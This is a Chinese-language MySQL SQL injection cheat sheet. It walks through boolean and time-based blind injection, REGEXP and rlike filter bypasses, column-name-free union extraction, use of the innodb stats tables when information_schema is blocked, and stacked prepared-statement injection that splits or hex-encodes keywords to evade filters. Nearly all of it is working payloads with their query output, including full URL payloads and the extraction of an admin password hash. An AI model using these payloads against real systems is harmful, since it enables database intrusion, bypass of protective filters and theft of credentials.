注意: LIMIT 0 修改会显示其他库名

例如:

LIMIT 0,1 修改为0 就是出1库

LIMIT 1,1 修改为1 就是出2库


读取1库库名第一个字: select * from test where id = 1 and if(substring((SELECT schema_name FROM information_schema.schemata LIMIT 0,1),1,1)='i',1=1,1=2);

# 0x05 猜表名

注意: table_schema=xxx 修改为其他库会查出其他库的数据

例如:

table_schema=database()  会获取当前连接的库数据

table_schema='test' 会获取test库数据


注意: LIMIT 0 修改会爆出不同的表名

例如:

LIMIT 0,1 修改为0 就是出1表

LIMIT 1,1 修改为1 就是出2表


数据库语句-读取当前库的第一张表名的第一个字: select * from test where id = 1 and if(substring((SELECT table_name FROM information_schema.tables where table_schema=database() LIMIT 0,1),1,1)='t',1=1,1=2);

# 0x06 猜字段

table_schema = "xx" 要看的数据库名

table_name = "xx" 要看的表名


limit 0 表示要爆的位置

例如:

表tdb_admin的字段为 id,usernam,password

limit 0 = id

limit 1 = username

limit 2 = password


猜test库 tdb_admin表的第一个字段名第一个字: select * from test where id = 1 and if(substring((SELECT column_name FROM information_schema.columns where table_schema='test' and table_name='tdb_admin' limit 0,1),1,1)='i',1=1,1=2);


猜test库 tdb_admin表的第一个字段名第二个字: select * from test where id = 1 and if(substring((SELECT column_name FROM information_schema.columns where table_schema='test' and table_name='tdb_admin' limit 0,1),2,1)='i',1=1,1=2);

# 0x07 猜内容

读取某库某表某字段第一个字: select * from test where id = 1 and if(substring((SELECT 字段名 FROM 库名.表名 limit 0,1),1,1)='a',1=1,1=2);


读取某库某表某字段第二个字: select * from test where id = 1 and if(substring((SELECT 字段名 FROM 库名.表名 limit 0,1),2,1)='x',1=1,1=2);

# 八、REGEXP绕过like注入-实现模糊搜索的方法

# 0x00 概要

不允许 “like” 出现时的注入方法

使用 REGEXP 可以实现与 like 相同的功能

使用方法: **表达式 REGEXP '^判断条件'  相当于  表达式 like '判断条件%'**

# 0x01 测试数据


```plain
mysql> select user();
+----------------+
| user()         |
+----------------+
| root@localhost |
+----------------+
1 row in set (0.00 sec)
```


```html
mysql> select current_user;
+----------------+
| current_user   |
+----------------+
| root@localhost |
+----------------+
1 row in set (0.00 sec)
```


```html
mysql> select * from users where id=48;
+----+------------------------------+----------+-----+----------+------+--------+---------------------+---------------------+
| id | unionid                      | nickname | sex | province | city | avatar | created_at          | updated_at          |
+----+------------------------------+----------+-----+----------+------+--------+---------------------+---------------------+
| 48 | oBjot1NCTkmEiaL-o-TAZD4npHUg | "ZOO"    |   1 | 广东     | 珠海 | NULL   | 2018-10-06 17:15:39 | 2018-10-06 17:15:39 |
+----+------------------------------+----------+-----+----------+------+--------+---------------------+---------------------+
1 row in set (0.00 sec)
```

# 0x02 测试


```html
// 正确的情况
// 会返回原来的数据页面保持不变

mysql> select * from users where id=48 and '1' REGEXP '^1';
+----+------------------------------+----------+-----+----------+------+--------+---------------------+---------------------+
| id | unionid                      | nickname | sex | province | city | avatar | created_at          | updated_at          |
+----+------------------------------+----------+-----+----------+------+--------+---------------------+---------------------+
| 48 | oBjot1NCTkmEiaL-o-TAZD4npHUg | "ZOO"    |   1 | 广东     | 珠海 | NULL   | 2018-10-06 17:15:39 | 2018-10-06 17:15:39 |
+----+------------------------------+----------+-----+----------+------+--------+---------------------+---------------------+
1 row in set
```


```html
// 查询current_user数据正确的情况
// 会返回原来的数据页面保持不变，说明 current_user 第一位为 “r”

mysql> select * from users where id=48 and current_user REGEXP '^r';
+----+------------------------------+----------+-----+----------+------+--------+---------------------+---------------------+
| id | unionid                      | nickname | sex | province | city | avatar | created_at          | updated_at          |
+----+------------------------------+----------+-----+----------+------+--------+---------------------+---------------------+
| 48 | oBjot1NCTkmEiaL-o-TAZD4npHUg | "ZOO"    |   1 | 广东     | 珠海 | NULL   | 2018-10-06 17:15:39 | 2018-10-06 17:15:39 |
+----+------------------------------+----------+-----+----------+------+--------+---------------------+---------------------+
1 row in set
```


```html
// 查询current_user数据正确的情况
// 会返回原来的数据页面保持不变，说明 current_user 第二位为 “o”

mysql> select * from users where id=48 and current_user REGEXP '^ro';
+----+------------------------------+----------+-----+----------+------+--------+---------------------+---------------------+
| id | unionid                      | nickname | sex | province | city | avatar | created_at          | updated_at          |
+----+------------------------------+----------+-----+----------+------+--------+---------------------+---------------------+
| 48 | oBjot1NCTkmEiaL-o-TAZD4npHUg | "ZOO"    |   1 | 广东     | 珠海 | NULL   | 2018-10-06 17:15:39 | 2018-10-06 17:15:39 |
+----+------------------------------+----------+-----+----------+------+--------+---------------------+---------------------+
1 row in set
```


```html
// 错误的情况
// 页面会爆错，如果关闭了错误提示，页面的数据会为空

mysql> select * from users where id=48 and current_user REGEXP '^aa';
Empty set
```


# 九、布尔盲注-case-条件判断-无()判断注入的办法

# 0x00 概要

只能用来证明是注入的方法


因为出现不了 ( )括号, 导致很多函数与方法都使用不了

# 0x00 记忆方式


case when '12345'like'1%' then'1'else 2*1e308 end

# 0x01 测试数据

```plain
mysql> select user();
+----------------+
| user()         |
+----------------+
| root@localhost |
+----------------+
1 row in set (0.00 sec)
```


```plain
mysql> select * from tdb_goods where goods_id=1;
+----------+----------------------------+------------+------------+-------------+---------+------------+
| goods_id | goods_name                 | goods_cate | brand_name | goods_price | is_show | is_saleoff |
+----------+----------------------------+------------+------------+-------------+---------+------------+
|        1 | R510VC 15.6英寸笔记本       | 笔记本     | 华硕      |    3399.000 |       1 |          0 |
+----------+----------------------------+------------+------------+-------------+---------+------------+
1 row in set (0.00 sec)
```

# 0x01 测试


```html
// 正确的情况
// 会返回原来的数据页面保持不变
mysql> select * from tdb_goods where goods_id=1 and case when '12345'like'1%' then'1'else 2*1e308 end;
+----------+----------------------------+------------+------------+-------------+---------+------------+
| goods_id | goods_name                 | goods_cate | brand_name | goods_price | is_show | is_saleoff |
+----------+----------------------------+------------+------------+-------------+---------+------------+
|        1 | R510VC 15.6英寸笔记本       | 笔记本     | 华硕      |    3399.000 |       1 |          0 |
+----------+----------------------------+------------+------------+-------------+---------+------------+
1 row in set (0.00 sec)
```


```html
// 错误的情况
// 页面会爆错，如果关闭了错误提示，页面的数据会为空
mysql> select * from tdb_goods where goods_id=1 and case when '12345'like'66%' then'1'else 2*1e308 end;
ERROR 1690 - DOUBLE value is out of range in '(2 * 1e308)'
```

# 十、布尔盲注-rlike的妙用

# 0x00 概要

有的时候，你发现注入了

但是因为这个注入点的数据表没有数据 / 前面加了where条件导致返回的数据为空

但是又不能延时的时候可以使用该方法进行布尔注入

# 0x01 语法

```plain
// 正确的时候,界面无变化
select * from tttt where type=11 rlike (case when 1 like 1 then 1 else char(40) end)


// 错误的时候,界面会爆错/变的不同起来
select * from tttt where type=11 rlike (case hen 1 like 2 then 1 else char(40) end)
// 排序注入这样使用
select * from tttt ORDER BY 1-1 rlike (case when 1 like 1 then 1 else char(40) end)
```

# 十一、无列名注入

# 0x00 概要

在无法获取列名的时候很好用

# 0x01 实验数据表


```plain
# tdb_goods表  一共7个字段
mysql> select * from tdb_goods limit 0,1;
+----------+-----------------------+------------+------------+-------------+---------+------------+
| goods_id | goods_name            | goods_cate | brand_name | goods_price | is_show | is_saleoff |
+----------+-----------------------+------------+------------+-------------+---------+------------+
|        1 | R510VC 15.6英寸笔记本 | 笔记本     | 华硕       | 3399.000    |       1 |          0 |
+----------+-----------------------+------------+------------+-------------+---------+------------+
1 row in set
```


```plain
# tdb_admin 表  一共3个字段
mysql> select id,username,password from tdb_admin limit 0,1;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | 7fef6171469e80d32c0559f88b377245 |
+----+----------+----------------------------------+
1 row in set
```

# 0x02 实验


假设现在只知道表名不知道列名,但是我们又需要读数据那么我们的sql可以这样写: select 1,2,3 union select * from tdb_admin;


```plain
mysql> select 1,2,3 union select * from tdb_admin;
+---+-------+----------------------------------+
| 1 | 2     | 3                                |
+---+-------+----------------------------------+
| 1 | 2     | 3                                |
| 1 | admin | 7fef6171469e80d32c0559f88b377245 |
+---+-------+----------------------------------+
2 rows in set
```


tdb_admin表的`id,username,password`列给替换成了`1,2,3`列,这样就不需要知道这表原来的列名叫什么.


接着下一步操作,查出数据以下为sql


- id 替换为 1
- username 替换为 2
- password 替换为 3


```plain
# 取 tdb_admin数据的id字段的数据
mysql> select `1` from (select 1,2,3 union select * from tdb_admin) a limit 1,1;
+---+
| 1 |
+---+
| 1 |
+---+
1 row in set
```


```plain
# 取 tdb_admin数据的username字段的数据
mysql> select `2` from (select 1,2,3 union select * from tdb_admin) a limit 1,1;
+-------+
| 2     |
+-------+
| admin |
+-------+
1 row in set
```


```plain
# 取 tdb_admin数据的password字段的数据
mysql> select `3` from (select 1,2,3 union select * from tdb_admin) a limit 1,1;
+----------------------------------+
| 3                                |
+----------------------------------+
| 7fef6171469e80d32c0559f88b377245 |
+----------------------------------+
1 row in set
```


注意: 取数据时limit下表从1,1开始取才是tdb_admin表的第一条数据

# 0x03 实际结合


web语句: http://www.test.com/sql.php?id=-1 union select 1,2,3,4,5,6,(select `2` from (select 1,2,3 union select * from tdb_admin)a limit 1,1);


数据库语句: select * from tdb_goods WHERE goods_id = -1 union select 1,2,3,4,5,6,(select concat('~',`1`,'~',`2`,'~',`3`) from (select 1,2,3 union select * from tdb_admin)a limit 1,1);


```plain
mysql> select * from tdb_goods WHERE goods_id = -1 union select 1,2,3,4,5,6,(select concat('~',`1`,'~',`2`,'~',`3`) from (select 1,2,3 union select * from tdb_admin)a limit 1,1);

+----------+------------+------------+------------+-------------+---------+-------------------------------------------+
| goods_id | goods_name | goods_cate | brand_name | goods_price | is_show | is_saleoff                                |
+----------+------------+------------+------------+-------------+---------+-------------------------------------------+
|        1 | 2          | 3          | 4          | 5.000       |       6 | ~1~admin~7fef6171469e80d32c0559f88b377245 |
+----------+------------+------------+------------+-------------+---------+-------------------------------------------+
1 row in set
```

# 十二、mysql5.7之后新增的一些对注入友好的特性

# 0x00 概要

MySQL 5.7之后的版本，在其自带的 mysql 库中，新增了 innodb_table_stats  和 innodb_index_stats 这两张日志表。


如果数据表的引擎是 innodb ，则会在这两张表中记录表、键的信息 。


如果waf过滤掉了 information_schema库 我们可以利用新加的这两个表注入出数据库名和表名。

# 0x01 mysql 5.7之前库名与表名获取

## 0x01.1 mysql库名获取


5.7之前我们获取各个库的库名的话，执行的sql一般是。


SELECT distinct concat(0x7e,schema_name,0x7e) FROM information_schema.schemata;


```plain
mysql> SELECT distinct concat(0x7e,schema_name,0x7e) FROM information_schema.schemata;
+---------------------------------+
| concat(0x7e,schema_name,0x7e)   |
+---------------------------------+
| ~information_schema~            |
| ~JewelBoxService~               |
| ~Mamba_Blog~                    |
| ~Marketing-Activities-MServer~  |
| ~QM-WechatServer~               |
| ~ai_test~                       |
| ~career_talent_mserver~         |
| ~homestead~                     |
| ~icbc~                          |
| ~icbc_careertalent_inrice_test~ |
| ~icbc_quiz~                     |
| ~lottery.inrice.cn~             |
| ~message~                       |
| ~moell_blog~                    |
| ~mysql~                         |
| ~performance_schema~            |
| ~quiz_server~                   |
| ~quiz_test~                     |
| ~sys~                           |
| ~test~                          |
| ~testsss~                       |
| ~voice.inrice.test~             |
+---------------------------------+
22 rows in set
```


## 0x01.2 mysql表名获取

```plain
# 当前连接数据库
mysql> select database();
+------------+
| database() |
+------------+
| test       |
+------------+
1 row in set
```


SELECT distinct concat(0x7e,table_name,0x7e) FROM information_schema.tables where table_schema=database();


```plain
# test数据库所有表名
mysql> SELECT distinct concat(0x7e,table_name,0x7e) FROM information_schema.tables where table_schema=database();
+------------------------------+
| concat(0x7e,table_name,0x7e) |
+------------------------------+
| ~migrations~                 |
| ~sms_accounts~               |
| ~system_configs~             |
| ~templete_message_tokens~    |
| ~users~                      |
+------------------------------+
5 rows in set
```


# 0x02 mysql 5.7之后库名与表名获取方法一

## 0x02.1 mysql库名获取


select distinct concat(0x7e,database_name,0x7e) from mysql.innodb_table_stats;


```plain
mysql> select distinct concat(0x7e,database_name,0x7e) from mysql.innodb_table_stats;
+---------------------------------+
| concat(0x7e,database_name,0x7e) |
+---------------------------------+
| ~JewelBoxService~               |
| ~Mamba_Blog~                    |
| ~Marketing-Activities-MServer~  |
| ~QM-WechatServer~               |
| ~ai_test~                       |
| ~career_talent_mserver~         |
| ~icbc~                          |
| ~icbc_careertalent_inrice_test~ |
| ~icbc_quiz~                     |
| ~lottery.inrice.cn~             |
| ~message~                       |
| ~moell_blog~                    |
| ~mysql~                         |
| ~quiz_server~                   |
| ~quiz_test~                     |
| ~sys~                           |
| ~test~                          |
| ~testsss~                       |
| ~voice.inrice.test~             |
+---------------------------------+
19 rows in set
```


## 0x02.2 mysql表名获取


```plain
# 当前连接数据库
mysql> select database();
+------------+
| database() |
+------------+
| test       |
+------------+
1 row in set
```


select distinct concat(0x7e,table_name,0x7e) from mysql.innodb_table_stats where database_name=database();


```plain
mysql> select distinct concat(0x7e,table_name,0x7e) from mysql.innodb_table_stats where database_name=database();
+------------------------------+
| concat(0x7e,table_name,0x7e) |
+------------------------------+
| ~migrations~                 |
| ~sms_accounts~               |
| ~system_configs~             |
| ~templete_message_tokens~    |
| ~users~                      |
+------------------------------+
5 rows in set
```


# 0x03 mysql 5.7之后库名与表名获取方法二

## 0x03.1 mysql库名获取


SELECT distinct concat(0x7e,database_name,0x7e) from mysql.innodb_index_stats;


```plain
mysql> SELECT distinct concat(0x7e,database_name,0x7e) from mysql.innodb_index_stats;
+---------------------------------+
| concat(0x7e,database_name,0x7e) |
+---------------------------------+
| ~JewelBoxService~               |
| ~Mamba_Blog~                    |
| ~Marketing-Activities-MServer~  |
| ~QM-WechatServer~               |
| ~ai_test~                       |
| ~career_talent_mserver~         |
| ~icbc~                          |
| ~icbc_careertalent_inrice_test~ |
| ~icbc_quiz~                     |
| ~lottery.inrice.cn~             |
| ~message~                       |
| ~moell_blog~                    |
| ~mysql~                         |
| ~quiz_server~                   |
| ~quiz_test~                     |
| ~sys~                           |
| ~test~                          |
| ~testsss~                       |
| ~voice.inrice.test~             |
+---------------------------------+
19 rows in set
```


## 0x03.2 mysql表名获取

```plain
# 当前连接数据库
mysql> select database();
+------------+
| database() |
+------------+
| test       |
+------------+
1 row in set
```


SELECT distinct concat(0x7e,table_name,0x7e) from mysql.innodb_index_stats where database_name=database();


```plain
mysql> SELECT distinct concat(0x7e,table_name,0x7e) from mysql.innodb_index_stats where database_name=database();
+------------------------------+
| concat(0x7e,table_name,0x7e) |
+------------------------------+
| ~migrations~                 |
| ~sms_accounts~               |
| ~system_configs~             |
| ~templete_message_tokens~    |
| ~users~                      |
+------------------------------+
5 rows in set
```

# 十二、注入点无数据构造bool延时注入的方法

# 0x00 概要

有的时候，你发现注入了

但是因为这个注入点的数据表没有数据 / 前面加了where条件导致返回的数据为空

而无法注入，那么这个时候这个方法就可以 构造子查询 来进行延迟注入

# 0x01 测试数据

```plain
mysql> select user();
+----------------+
| user()         |
+----------------+
| root@localhost |
+----------------+
1 row in set (0.00 sec)
```


例如测试表：tttt 没有数据

```plain
mysql> select * from tttt;
+----+
| id | 
+----+
|    |
+----+
Empty set (0.00 sec)
```

# 0x02 普通注入测试


```plain
# 可以发现数据并没有发生延迟，因为数据表没有数据

mysql> select * from tttt where id=1 or sleep(5);
Empty set (0.00 sec)

mysql> select * from tttt order by sleep(5);
Empty set (0.00 sec)
```

# 0x03 测试-构造子查询进行注入


```plain
# 例如注入点发生在 where 处 
# 即使 tttt 表没有数据也成功延迟了

mysql> select * from tttt where id=1 and (select 1 from (select sleep(5))x);
Empty set (5.00 sec)
# 例如注入点发生在 order by 处 
# 即使 tttt 表没有数据也成功延迟了

mysql> select * from tttt order by id-(select 1 from (select sleep(5))x);
Empty set (5.00 sec)
```

# 0x04 注入点 order by 处构造子查询延迟注入出 user()

user() = root@localhost

使用方式：select * from tttt ORDER BY id-(select 1 from (select case when (**payload** like 'r%') then 1 else sleep(2) end)x);

```plain
# 对的情况
# 页面会很快的返回数据
# 说明 user() 第1-4位字符为 root

mysql> select * from tttt ORDER BY id-(select 1 from (select case when (user() like 'root%') then 1 else sleep(2) end)x);
Empty set (0.00 sec)
```


```plain
# 错误的情况
# 页面会延迟2秒

mysql> select * from tttt ORDER BY id-(select 1 from (select case when (user() like 'aaaa%') then 1 else sleep(2) end)x);
Empty set (2.00 sec)
```

# 0x05 注入点 where 处构造子查询延迟注入出 user()


user() = root@localhost


使用方式：select * from tttt WHERE id=1 and (select 1 from (select case when (**payload** like 'r%') then 1 else sleep(2) end)x);


```plain
# 对的情况
# 页面会很快的返回数据
# 说明 user() 第1-4位字符为 root

mysql> select * from tttt where id=1 and (select 1 from (select case when (user() like 'root%') then 1 else sleep(2) end)x);
Empty set (0.00 sec)
# 错误的情况
# 页面会延迟2秒

mysql> select * from tttt where id=1 and (select 1 from (select case when (user() like 'aaaa%') then 1 else sleep(2) end)x);
Empty set (2.00 sec)
```

# 十三、堆叠注入-预处理语句注入办法

# 0x01 注意点

要能支持堆叠,如果不能堆叠无法使用

# 0x02 语法学习

这个好麻烦啊,我就直接抄了,参考文章下面有原文链接

MySQL官方将prepare、execute、deallocate统称为PREPARE STATEMENT

我们就称之为预处理语句,其用法十分简单,来一起看看详细的介绍进行学习把

## 0x02.1 示例代码

```plain
PREPARE stmt_name FROM preparable_stmt

EXECUTE stmt_name
 [USING @var_name [, @var_name] ...] -

{DEALLOCATE | DROP} PREPARE stmt_name
```

## 0x02.2 举个栗子

```plain
mysql> PREPARE pr1 FROM 'SELECT ?+?';
Query OK, 0 rows affected (0.01 sec)
Statement prepared

mysql> SET @a=1, @b=10 ;
Query OK, 0 rows affected (0.00 sec)

mysql> EXECUTE pr1 USING @a, @b;
+------+
| ?+? |
+------+
| 11 |
+------+
1 row in set (0.00 sec)

mysql> EXECUTE pr1 USING 1, 2; -- 只能使用用户变量传递。
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the 
right syntax to use near '1, 2' at line 1

mysql> DEALLOCATE PREPARE pr1;
Query OK, 0 rows affected (0.00 sec)
```

使用PAREPARE STATEMENT可以减少每次执行SQL的语法分析，比如用于执行带有WHERE条件的SELECT和DELETE，或者UPDATE，或者INSERT，只需要每次修改变量值即可。

同样可以防止SQL注入，参数值可以包含转义符和定界符。

适用在应用程序中，或者SQL脚本中均可

## 0x02.3 更多用法

同样PREPARE ... FROM可以直接接用户变量

```plain
mysql> CREATE TABLE a (a int);
Query OK, 0 rows affected (0.26 sec)

mysql> INSERT INTO a SELECT 1;
Query OK, 1 row affected (0.04 sec)
Records: 1 Duplicates: 0 Warnings: 0

mysql> INSERT INTO a SELECT 2;
Query OK, 1 row affected (0.04 sec)
Records: 1 Duplicates: 0 Warnings: 0

mysql> INSERT INTO a SELECT 3;
Query OK, 1 row affected (0.04 sec)
Records: 1 Duplicates: 0 Warnings: 0

mysql> SET @select_test = CONCAT('SELECT * FROM ', @table_name);
Query OK, 0 rows affected (0.00 sec)

mysql> SET @table_name = 'a';
Query OK, 0 rows affected (0.00 sec)

mysql> PREPARE pr2 FROM @select_test;
Query OK, 0 rows affected (0.00 sec)
Statement prepared

mysql> EXECUTE pr2 ;
+------+
| a |
+------+
| 1 |
| 2 |
| 3 |
+------+
3 rows in set (0.00 sec)

mysql> DROP PREPARE pr2; -- 此处DROP可以替代DEALLOCATE
Query OK, 0 rows affected (0.00 sec)
```

每一次执行完EXECUTE时，养成好习惯，须执行DEALLOCATE PREPARE … 语句，这样可以释放执行中使用的所有数据库资源（如游标）。

不仅如此，如果一个session的预处理语句过多，可能会达到max_prepared_stmt_count的上限值。

预处理语句只能在创建者的会话中可以使用，其他会话是无法使用的。

而且在任意方式（正常或非正常）退出会话时，之前定义好的预处理语句将不复存在。

如果在存储过程中使用，如果不在过程中DEALLOCATE掉，在存储过程结束之后，该预处理语句仍然会有效。

# 0x03 例子合集

## 0x03.1 普通注入

好了,通过上面我们就正式入门了,那么如何拿来注入使用呢?

就通过接下来的例子了

例如现在有一个注入点

http://127.0.0.1/xx/user.php?id=1
其中id参数有注入,但是有很强的过滤,过滤了select、from、where、union那么还能正常读数据嘛?

其实还是可以的,如果支持堆叠的话


在例如现在要读取的数据为 SELECT User FROM  user LIMIT 0,1

让我们使用本章节学习到的技能进行变形一下

```plain
// @ab = SELECT User FROM  user LIMIT 0,1变形
set @a:=CONCAT("S", "E", "T ","@ab:=", "(SE","LECT ", "User FR","OM"," user LIM","IT", " 0,1)");
PREPARE stmt FROM @a;
EXECUTE stmt;

// SELECT if(@ab like '%root%',SLEEP(3),1);变形
set @b:=CONCAT("SE", "LE", "CT ", "i", "f(", "@ab ", "li", "ke '%", "root","%'",",","SL", "EE", "P(3),1);");
PREPARE stmt2 FROM @b;
EXECUTE stmt2;
```





```plain
最后面换成正常注入的话,就是这样子的:
http://127.0.0.1/xx/user.php?id=1';set @a:=CONCAT("S", "E", "T ","@ab:=", "(SE","LECT ", "User FR","OM"," user LIM","IT", " 0,1)");PREPARE stmt FROM @a;EXECUTE stmt;set @b:=CONCAT("SE", "LE", "CT ", "i", "f(", "@ab ", "li", "ke '%", "rootaaaaaaa","%'",",","SL", "EE", "P(3),1);");PREPARE stmt2 FROM @b;EXECUTE stmt2; -- a
```

## 0x03.2 数字型注入

如果说站点有数字型注入,并且过滤了select、from、where、union还把单双引号也过滤了

那还是有办法进行注入的

```plain
例如注入的语句:
SELECT if((SELECT User FROM user LIMIT 0,1) like '%root%',SLEEP(3),1);
先使用hex转成16进制

找个数据库执行如下语句:
select hex("SELECT if((SELECT User FROM user LIMIT 0,1)like'%root%',SLEEP(3),1)");
```




然后在转换一下即可正常注入了

```plain
// 正确的情况下
// 语句: SELECT if((SELECT User FROM user LIMIT 0,1) like '%root%',SLEEP(3),1);
SET @c:=0x53454C454354206966282853454C45435420557365722046524F4D2075736572204C494D495420302C3129206C696B65202725726F6F7425272C534C4545502833292C3129;
PREPARE stmt3 FROM @c;
EXECUTE stmt3;
```




```plain
// 正确的情况下
// 语句: SELECT if((SELECT User FROM user LIMIT 0,1) like '%aaaaaaa%',SLEEP(3),1);
SET @c:=0x53454C454354206966282853454C45435420557365722046524F4D2075736572204C494D495420302C3129206C696B652027256161616161616125272C534C4545502833292C3129;
PREPARE stmt3 FROM @c;
EXECUTE stmt3;
```



# 0x04 参考文章

https://www.jb51.net/article/121763.htm